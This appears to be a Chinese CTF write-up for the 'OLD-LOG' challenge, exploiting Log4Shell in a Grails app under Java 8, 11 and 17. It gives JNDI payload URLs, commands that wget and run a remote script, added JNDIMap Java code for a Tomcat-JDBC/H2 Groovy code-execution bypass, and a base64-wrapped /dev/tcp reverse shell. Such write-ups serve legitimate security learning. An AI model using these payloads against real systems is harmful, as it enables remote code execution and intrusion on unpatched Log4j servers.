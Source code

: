 # OLD-LOG

## 0x01 题目：

> What if we combine old log4shell with different java versions?（v1.8,v11,v17,v21）
> Flag is in the root directory, but the file name is not "flag".

>Grails 5.3.6 is the latest version that supports Java 1.8.
Download Grails 5.3.6 from https://grails.org/download.html.
Use `grails create-app old-log` to create a default project.
Add dependencies for log4j2-2.14.1.
Add WelcomeController by `grails create-controller welcome`, then modify it:
```
class WelcomeController {

    private static final Logger logger = LogManager.getLogger()

    def index() {
        def name = params.name
        logger.info("{} visited welcome", name);
        render "<html><body><h1>Welcome to AVSS 2024</h1><h3>Your name: $name</h3></body></html>"
    }
}
```
## 0x02 分析

该框架存在log4shell的漏洞，要求分别在不同jre版本下进行漏洞利用。

### v1.8,v11
#### 环境分析
java版本1.8.0_402-b06，因为>8u182，没办法直接使用远程加载恶意类。

```shell
root@56dbe294ec23:/tmp# java -version
openjdk version "1.8.0_402"
OpenJDK Runtime Environment (Temurin)(build 1.8.0_402-b06)
OpenJDK 64-Bit Server VM (Temurin)(build 25.402-b06, mixed mode)
```

#### 程序分析
下载代码，可以看到框架的依赖采用低版本的jackson。
![](./file/package.png)
尝试jackson的反序列化链   
`com.fasterxml.jackson.core:jackson-databind:2.14.2, JRE > 7, org.hibernate:hibernate-core:4.3.11.Final, aopalliance:aopalliance:1.0, org.jboss.logging:jboss-logging:3.3.0.Final, javax.transaction:javax.transaction-api:1.2, dom4j:dom4j:1.6.1 `

利用`JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar`工具，可以直接利用。

`java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "https://requestrepo.com/"` 启动服务，通过如下请求触发反序列化，`http://13.212.61.218:18082/welcome?name=%24{jndi%3Aldap%3A%2F%2F120.26.136.135%3A1389%2FdeserialURLDNS}`    
成功确认反序列化链。

#### 漏洞利用
尝试多种，直接反弹shell和base64加密反弹shell都不行。
最后测试docker发现存在wget，可以直接下载sh文件执行达到反弹shell的效果。

触发请求：

`http://13.212.61.218:18082/welcome?name=%24{jndi%3Aldap%3A%2F%2F120.26.136.135%3A1389%2FdeserialJackson}`

利用`JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar`工具，以此执行如下命令，下载文件，修改权限，执行。

1.  `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "/usr/bin/wget  http://x.x.x.x/re111 -O /tmp/re"` 
2.   `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "chmod +x /tmp/re"`  
3. `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "/usr/bin/bash /tmp/re"`

![](./file/success1.png)

### v17
前面简单的序列化只能绕过低版本，后面需要绕过版本jre。 

由于高版本SpringBoot（自带的tomcat），网上常见的基于`BeanFactory`无法绕过，无法通过设置`forceString`去调用方法。

注意到依赖目录lib里有tomcat-jdbc，可以使用 tomcat-jdbc.jar 的 `org.apache.tomcat.jdbc.pool.DataSourceFactory`，配合JDBC Attack来绕过，打H2数据库。

为了方便放在公网服务器上启动，这里用了一个开源项目`https://github.com/X1r0z/JNDIMap`

但这个项目目前不支持tomcat-jdbc的绕过，自己添一个

```java
package map.jndi.controller.database;

import map.jndi.annotation.JNDIController;
import map.jndi.annotation.JNDIMapping;
import map.jndi.controller.DatabaseController;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.util.Properties;

@JNDIController
@JNDIMapping("/TomcatJDBC")
public class TomcatJDBC extends DatabaseController {
    public Object process(Properties props) {
        Reference ref = new Reference("javax.sql.DataSource", "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
        ref.add(new StringRefAddr("driverClassName", props.getProperty("driver")));
        ref.add(new StringRefAddr("url", props.getProperty("url")));
        ref.add(new StringRefAddr("initialSize", "1"));

        if (props.getProperty("sql") != null) {
            ref.add(new StringRefAddr("connectionInitSqls", props.getProperty("sql")));
        }
        return ref;
    }
}

```
再改一个地方map.jndi.controller.DatabaseController
```
@JNDIMapping("/H2/Groovy/{cmd}")
public Properties h2Groovy(String cmd) {
    System.out.println("[H2] [Groovy] Cmd: " + cmd);

    if (cmd.startsWith("b64")){
        cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
        System.out.println(cmd);
    }

    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\\"" + cmd + "\\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";

    Properties props = new Properties();
    props.setProperty("driver", "org.h2.Driver");
    props.setProperty("url", url);

    return props;
}

@JNDIMapping("/H2/JavaScript/{cmd}")
public Properties h2JavaScript(String cmd) {
    System.out.println("[H2] [JavaScript] Cmd: " + cmd);

    if (cmd.startsWith("b64")){
        cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
        System.out.println(cmd);
    }

    String javascript = "//javascript\\njava.lang.Runtime.getRuntime().exec(\\"" + cmd + "\\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER test BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS '"+ javascript +"'";

    Properties props = new Properties();
    props.setProperty("driver", "org.h2.Driver");
    props.setProperty("url", url);

    return props;
}

```
命令参数增加base64解码
```
if (cmd.startsWith("b64")){
    cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
    System.out.println(cmd);
}

```

`welcome?name=${jndi:ldap://43.136.40.245:1234/TomcatJDBC/H2/Groovy/b64xxx}`

xxx换为`bash -c {echo,yyy}|{base64,-d}|{bash,-i}`base64编码后的内容，yyy为反弹shell命令的base64编码`sh -i >& /dev/tcp/ip/port 0>&1`

JDK17已经把JavaScript引擎移除了，用Groovy来执行命令。

#### ref

- https://tttang.com/archive/1405/
>高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。
- https://paper.seebug.org/942/
